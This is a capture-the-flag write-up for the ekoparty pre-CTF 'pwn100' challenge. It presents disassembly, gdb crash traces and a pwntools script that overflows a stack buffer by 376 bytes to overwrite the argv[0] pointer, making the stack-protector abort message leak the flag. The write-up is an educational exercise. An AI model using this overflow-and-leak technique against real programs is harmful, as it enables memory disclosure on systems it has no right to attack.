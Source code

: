 ## ekoparty_pre-ctf: pwn100

----------
## Challenge details
| Contest        | Challenge     | Category  | Points |
|:---------------|:--------------|:----------|-------:|
| ekoparty_pre-ctf | Smashing the stack for fun and profit | Pwn | 100  |



*Description*

> nc challs.ctf.site 20001

> Attachment: pwn100.zip 

----------
## Write-up

This binary loads the flag and then shows us the memory adress where it is loaded:

```asm
mov     rdx, [rbp+var_118]
lea     rax, [rbp+var_110]
mov     esi, 20h
mov     rdi, rax
call    fgets
mov     rax, [rbp+var_118]
mov     rdi, rax
call    fclose
lea     rax, [rbp+var_110]
mov     rsi, rax
mov     edi, offset aInterestingDat ; "Interesting data loaded at %p\nYour use"...
```

It continues to read in 1024 bytes in a 0x90 byte buffer:

```asm
mov     eax, 0
call    printf
mov     edi, 0
call    fflush
lea     rax, [rbp+var_90]
mov     edx, 1024
mov     rsi, rax
mov     edi, 0
call    read
jmp     short loc_401121
```

Unfortunately stack cookies are enabled:

```asm
mov     eax, 0
mov     rcx, [rbp+var_8]
xor     rcx, fs:28h
jz      short locret_40113A
call    __stack_chk_fail
```
We have some interesting behaviour for input of different lengths though:

```
$ ./xpl <<< $(python -c 'print "A"*0x90')
Interesting data loaded at 0x7ffd81ac9b40
Your username? *** stack smashing detected ***: ./xpl terminated
Aborted
```

```
./xpl <<< $(python -c 'print "A"*0x400')
Interesting data loaded at 0x7ffe4297eb90
Your username? Segmentation fault
```

What it turns out that is happening is that the stack-smashing protection is trying to print the name of the program when it exits, but our overflow is big enough that we can control the pointer to this string!

Lets see where it happens:

```
gdb -q xpl
Reading symbols from xpl...(no debugging symbols found)...done.
gdb-peda$ r
Starting program: xpl 
Interesting data loaded at 0x7fffffffded0
Your username? AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%nA%SA%oA%TA%pA%UA%qA%VA%rA%WA%sA%XA%tA%YA%uA%ZA%vA%wA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6AsLAshAs7AsMAsiAs8AsNAsjAs9AsOAskAsPAslAsQAsmAsRAsnAsSAsoAsTAspAsUAsqAsVAsrAsWAssAsXAstAsYAsuAsZAsvAswAsxAsyAszAB%ABsABBAB$ABnABCAB-AB(ABDAB;AB)ABEABaAB0ABFABbAB1ABGABcAB2ABHABdAB3ABIABeAB4ABJABfAB5ABKABgAB6ABLABhAB7ABMABiAB8ABNABjAB9ABOABkABPABlABQABmABRABnABSABoABTABpABUABqABVABrABWABsABXABtABYABuABZABvABwABxAByABzA$%A$sA$BA$$A$nA$CA$-A$(A$DA$;A$)A$EA$aA$0A$FA$bA$1A$GA$cA$2A$HA$dA$3A$IA$eA$4A$JA$fA$5A$KA$gA$6A$LA$hA$7A$MA$iA$8A$NA$jA$9A$OA$kA$PA$lA$QA$mA$RA$nA$SA$oA$TA$pA$UA$qA$VA$rA$WA$sA$XA$tA$YA$uA$ZA$v

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x2541572541722541 ('A%rA%WA%')
RBX: 0x497f21 ("%s terminated\n")
RCX: 0x541 
RDX: 0x20 (' ')
RSI: 0x10 
RDI: 0x2541572541722541 ('A%rA%WA%')
RBP: 0x7fffffffde70 --> 0x497ef7 ("stack smashing detected")
RSP: 0x7fffffffdd48 --> 0x409941 (<__libc_message+305>:	mov    rcx,rax)
RIP: 0x41a0fa (<strlen+42>:	movdqu xmm12,XMMWORD PTR [rax])
R8 : 0x10 
R9 : 0x0 
R10: 0x41b3b0 (<strncmp+3840>:	pxor   xmm0,xmm0)
R11: 0x0 
R12: 0x2541572541722541 ('A%rA%WA%')
R13: 0x7fffffffdd50 --> 0x497f1b (" ***: %s terminated\n")
R14: 0x3 
R15: 0x3
EFLAGS: 0x10297 (CARRY PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x41a0ea <strlen+26>:	and    rcx,0xfff
   0x41a0f1 <strlen+33>:	cmp    rcx,0xfcf
   0x41a0f8 <strlen+40>:	ja     0x41a160 <strlen+144>
=> 0x41a0fa <strlen+42>:	movdqu xmm12,XMMWORD PTR [rax]
   0x41a0ff <strlen+47>:	pcmpeqb xmm12,xmm8
   0x41a104 <strlen+52>:	pmovmskb edx,xmm12
   0x41a109 <strlen+57>:	test   edx,edx
   0x41a10b <strlen+59>:	je     0x41a111 <strlen+65>
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdd48 --> 0x409941 (<__libc_message+305>:	mov    rcx,rax)
0008| 0x7fffffffdd50 --> 0x497f1b (" ***: %s terminated\n")
0016| 0x7fffffffdd58 --> 0x6 
0024| 0x7fffffffdd60 --> 0x7fffffffdd80 --> 0x497ef7 ("stack smashing detected")
0032| 0x7fffffffdd68 --> 0x1000 
0040| 0x7fffffffdd70 --> 0x8 
0048| 0x7fffffffdd78 --> 0x4098be (<__libc_message+174>:	movzx  edx,BYTE PTR [rax])
0056| 0x7fffffffdd80 --> 0x497ef7 ("stack smashing detected")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x000000000041a0fa in strlen ()
gdb-peda$ pattern_offset $eax
1097999681 found at offset: 376
```

So the plan is to overflow with 376 bytes of garbage, and then the address to the flag:

```python
#!/usr/bin/python

from pwn import *

host = "challs.ctf.site"
port = 20001

s = remote(host, port)

r1 = s.recvuntil("username?")
adress = p64(int(r1.split()[4], 16))
s.send("A"*376 + adress)
print s.recvline()
```

Which gives: 

```
./smash.py 
[+] Opening connection to challs.ctf.site on port 20001: Done
 *** stack smashing detected ***: EKO{pwning_stack_protector}

[*] Closed connection to challs.ctf.site port 20001
```

The flag is:

```
EKO{pwning_stack_protector}
```
